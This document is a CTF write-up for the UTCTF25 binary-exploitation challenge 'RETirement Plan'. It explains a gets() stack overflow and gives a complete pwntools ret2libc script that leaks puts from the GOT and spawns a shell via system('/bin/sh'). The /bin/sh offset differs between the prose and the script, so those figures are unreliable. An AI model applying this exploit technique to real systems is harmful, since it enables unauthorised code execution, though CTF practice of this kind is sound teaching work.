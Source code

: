 
WriteUp for  RETirement Plan @ UTCTF25
Category: Binary Exploitation / Pwn

    Upon opening the challenge we are presented with a binary and a libc file
    
    checking the binary we get
    `    
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x3fe000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No `

    We see the file has: 
    - ==No stack canary== : so the buffer overflow is possible
    - ==NX is not enabled== : so injection of code in the stack is possible
    - ==No Pie== : so the binary is n .. .    
    

    Let's now analyze the binary file on a tool like ghidra
    ![Binary](decompiled.png)

    What the code does is very simple:

    ```
    It uses puts to display an output to the user 
    Uses gets to get user input into a 48 byte buffer (exploitable via overflow)
    And for each char od the user input it transforms them in their opposite, meaning a -> z, b -> x, A -> Z ...
    if the character is lowercase does -0x25, if it is uppercase does -0x65
    ``` 


    From this we know that the code will never provide us a flag, so we need to execute system("/bin/sh"), for this we need to know the system call address and the /bin/sh address. 
    Due to the machine having ASLR enabled, these addresses will always be random, but their offset to the libc base address is always constant, and we have the libc file so lets find their offsets 

    Upon running the libc in gdb and doing p system we receive : 
    `$1 = {<text variable, no debug info>} 0x453a0 <system>`
    So our system offset is ==0x453a0== 

    And if we do 
    `strings -t x libc-2.23.so | grep /bin/sh` 
    we get the /bin/sh offset ==18ce57==

    So if we get the address of a call in the program, we can use it to calculate the libc base address and then the system's and /bin/sh's, so let's choose the first call, puts()

    we see on the libc that the puts offset is :
    `$1 = {<text variable, no debug info>} 0x6f6a0 <puts>`

    So essentially what we need to do is run the program, get puts address, call main() again so process doesn't finish, calculate the system() and /bin/sh addresses, call system with /bin/sh.

    So now we need to get the main() address and gadgets to overwrite the return address
    
    If we use cylic to crash the program and check it using gdb we can see
    ![main](main.png)

    That the main address is 0x40070d - 247 = ==0x400616==

    Getting the gadgets using ROPGadget 
    
    ```
    ROPgadget --binary ./shellcode | grep "pop rdi"
    0x0000000000400793 : pop rdi ; ret
    0x00000000004004a9 : ret
    ```

    pop rdi: Pops the top value from the stack into the rdi register.
    ret: Returns to the next address on the stack.

    The first argument to a function is passed in the rdi register. For example:
    To call puts("Hello"), the address of the string "Hello" must be placed in rdi.
    To call system("/bin/sh"), the address of the string "/bin/sh" must be placed in rdi.

    The pop rdi; ret gadget allows us to control the rdi register by popping a value from the stack into it.



Polished commented script 

```
from pwn import *

# Load the binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address of a frame_dummy, to clear the registers so we dont crash,  mov eax, 0x0
add = 0x400600

# Receive initial prompt
p.recv()

# Payload to leak the address of puts
payload = b'A' * 47  # Padding (gets tries to get 48 bytes)
payload += b'F'  # Marker for reference
payload += p64(add)  # Overwrite return address
payload += 16 * b'b'  # Additional padding
payload += p64(0x400793)  # pop rdi; ret gadget pops the next value in the stack (puts GOT) into rdi, and return (plt.puts) which calls puts(puts@got) and prints the puts address
payload += p64(elf.got.puts)  # Address of puts in GOT
payload += p64(elf.plt.puts)  # Call puts to leak the address
payload += p64(0x400616)  # Return to main for second stage

p.sendline(payload)

# Parse the leaked address of puts
p.recvuntil(b'F')
output = p.recvuntil(b'\n').strip()
puts_addr = u64(output.ljust(8, b'\x00'))
 
libc_addr = puts_addr - 0x6f6a0  # Offset of puts in libc
bin_sh = libc_addr + 0x18ce67  # Offset of /bin/sh in libc
system_addr = libc_addr + 0x453a0  # Offset of system in libc

# Second payload to spawn a shell
payload2 = b'C' * 48  # Padding
payload2 += p64(add)  # Overwrite return address
payload2 += 16 * b'b'  # Additional padding
payload2 += p64(0x00000000004004a9)  # ret gadget for stack alignment
payload2 += p64(0x400793)  # pop rdi; ret gadget pops next value (bin_sh) into rdi and returns this instruction to the next address in the stack (system_addr) calling system("/bin/sh") 
payload2 += p64(bin_sh)  # Address of /bin/sh
payload2 += p64(system_addr)  # Call system

p.sendline(payload2)

# Interact with the shell
p.interactive()
```

![flag](flag.png)
